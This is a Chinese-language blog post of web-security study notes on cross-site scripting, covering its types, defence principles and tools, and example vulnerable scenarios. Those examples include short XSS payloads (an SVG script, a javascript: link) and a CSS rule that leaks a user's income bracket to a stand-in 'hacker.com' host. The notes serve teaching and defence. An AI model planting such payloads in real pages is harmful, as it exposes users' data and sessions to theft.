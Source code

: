 ```yaml
---
layout: Post
title: "XSS"
subtitle: "web安全笔记（一）"
date: 2022-02-18
useHeaderImage: true
headerImage: /img/in-post/network-security/xss.jpg
headerMask: rgba(40, 57, 101, .4)
lastUpdated: false
catalog: true
tags:
  - web安全
---
```


::: info
【第二届青训营-寒假前端场】课程 web 开发的安全之旅的扩展笔记
首发: [【第二届青训营-寒假前端场】- web 安全笔记（一）—— XSS](https://forum.juejin.cn/youthcamp/post/7065686880871776293?from=4)
:::

## XSS：Cross-Site Scripting

- _Meaning_\
   XSS 攻击，跨站脚本攻击(Cross-Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为 XSS。XSS 是一种常见的 web 安全漏洞，它允许攻击者将恶意代码植入到提供给其它用户使用的页面中。不同于大多数攻击(一般只涉及攻击者和受害者)，XSS 涉及到三方，即攻击者、客户端与 Web 应用。XSS 的攻击目标是为了盗取存储在客户端的 cookie 或者其他网站用于识别客户端身份的敏感信息。一旦获取到合法用户的信息后，攻击者甚至可以假冒合法用户与网站进行交互。
  > 本段引用于：[常见 web 攻击总结 - morethink - 博客园 (cnblogs.com)](https://www.cnblogs.com/morethink/p/8734103.html)
- XSS 主要利用了
  - web 网站盲目信任用户提交的内容
  - 没有将用户提交内容进行过滤/转义，直接转化成 DOM
- XSS 的一些特点
  - 难点：通常难以从 UI 上感知（暗地执行脚本）
  - 目的：窃取用户信息（cookie/token）
  - 形式：绘制 UI（e.g. 弹窗），诱骗用户进行点击或填写表单

## XSS 分类

### Stored XSS：存储型 XSS

- _Meaning_\
  主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论、博客日志和各类表单等。应用程序从数据库中查询数据，在页面中显示出来，攻击者在相关页面输入恶意的脚本数据后，用户浏览此类页面时就可能受到攻击。
- _Tips_
  - 恶意脚本存在数据库中
  - 访问页面 ——> 读数据 ——> 被攻击
  - 危害最大，对全部用户可见

### Reflect XSS：反射型 XSS

- _Meaning_\
  主要做法是将脚本代码加入 URL 地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。
- _Tips_
  - 不涉及数据库
  - 从 URL 上攻击

### DOM-based XSS：基于 DOM 的 XSS

- _Meaning_\
  是基于文档对象模型 Document Objeet Model，DOM)的一种漏洞。客户端的脚本程序可以通过 DOM 动态地检查和修改页面内容，它不依赖于提交数据到服务器端，而从客户端获得 DOM 中的数据在本地执行，如果 DOM 中的数据没有经过严格确认，就会产生 DOM—based XSS 漏洞。
- _Tips_
  - 不需要服务器的参与
  - 恶意攻击的发起+执行，全在浏览器完成

### Mutation-based XSS：突变 XSS

- _Meaning_\
  不论是服务器端或客户端的 XSS 过滤器，都认定过滤后的 HTM 源代码应该与浏览器所渲染后的 HTML 代码保持一致，至少不会出现很大的出入。然而，如果用户所提供的富文本内容通过 Javascript 代码进属性后，一些意外的变化会使得这个认定不再成立：一串看似没有任何危害的 HTML 代码，将逃过 XSS 过滤器的检测，最终进入某个 DOM 节点中，浏览器的渲染引擎会将本来没有任何危害的 HTML 代码渲染成具有潜在危险的 XSS 攻击代码。 随后，该段攻击代码，可能会被 JS 代码中的其它一些流程输出到 DOM 中或是其它方式被再次渲染，从而导致 XSS 的执行。这种由于 HTML 内容进后发生意外变化（mutation，突变，来自遗传学的一个单词，大家都知道的基因突变，gene mutation），而最终导致 XS 的攻击流程，被称为突变 XSS（mXSs, Mutation based Cross-Site-Scripting）
  > mXSS 的概念来源于：[xss 漏洞学习小结，详不详细你说了算](https://blog.csdn.net/MSB_WLAQ/article/details/120671017)
- _Tips_
  - 独特优化：利用了浏览器渲染 DOM 的特性
  - 按浏览器进行攻击：不同浏览器，会有区别

### Reflected XSS 和 DOM-based XSS 的区别

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/5e5ad102931844338074a571488820e6~tplv-k3u1fbpfcp-zoom-1.image)

- Reflected XSS 攻击中，服务器在返回 HTML 文档的时候，就已经包含了恶意的脚本。
- DOM-based XSS 攻击中，服务器在返回 HTML 文档的时候，是不包含恶意脚本的，恶意脚本是在其执行了非恶意脚本后，被注入到文档里的。

## 如何防御 XSS

### 防范 XSS 漏洞原则

1. 永远不信任用户所提交的内容
2. 不要将用户提交内容直接转换成 DOM
3. 实现 Session tokens（Session 标记）、CAPTCHA（验证码）系统或者 HTTP 引用头检查
4. Cookie 防盗
5. 确认接收的内容被妥善地规范化

### 常见防御 XSS 的方法

1. 基于特征的防御：过滤特殊字符\
   主要是将用户所提供的内容进行过滤，如过滤`<script>`标签。
2. 基于代码修改的防御
   1. 用户向服务器上提交的信息要对 URL 和附带的的 HTTP 头、POST 数据等进行查询，对不是规定格式、长度的内容进行过滤。
   2. 实现 Session 标记（session tokens）、CAPTCHA 系统或者 HTTP 引用头检查，以防功能被第三方网站所执行。
   3. 确认接收的的内容被妥善的规范化，仅包含最小的、安全的 Tag（没有 javascript），去掉任何对远程内容的引用（尤其是样式表和 javascript），使用 HTTP only 的 cookie。
3. 客户端分层防御策略
   > 来源：[XSS 攻击\_百度百科 (baidu.com)](https://baike.baidu.com/item/XSS%E6%94%BB%E5%87%BB/954065?fr=aladdin)

### 一些防御 XSS 的现成工具

- 前端
  - 主流框架默认防御 XSS
  - 安装插件 google-closure-library
- 服务端
  - DOMPurify (Node)

### 一些可能出现 XSS 的场景

1. string ——> DOM
   ```js
   new DOMParser();
   ```
2. 上传 svg
   ```html
   <svg>
     <script>
       alert('xss');
     </script>
   </svg>
   ```
3. Blob 动态生成 script
   ```js
   const blob = new Blob([script], { type: "text/javascript" });
   const url = new URL.createObjectURL(blob);
   const script = document.createElement("script");
   script.src = url;
   ```
4. 自定义跳转链接
   ```html
    <a href='javascript: alert('xss');'></a>
   ```
5. 自定义样式
   ```css
   input[type="radio"].income-gt10k:checked {
     background: url("https://hacker.com/?income=gt10k");
   }
   ```

## 小结

XSS 攻击，利用恶意脚本发起攻击。在 OWASP TOP10 中，威胁排行在 A3。

> [WEB 安全\_OWASP TOP10 威胁和策略 - 简书 (jianshu.com)](https://www.jianshu.com/p/a4d2ef5c8abc)

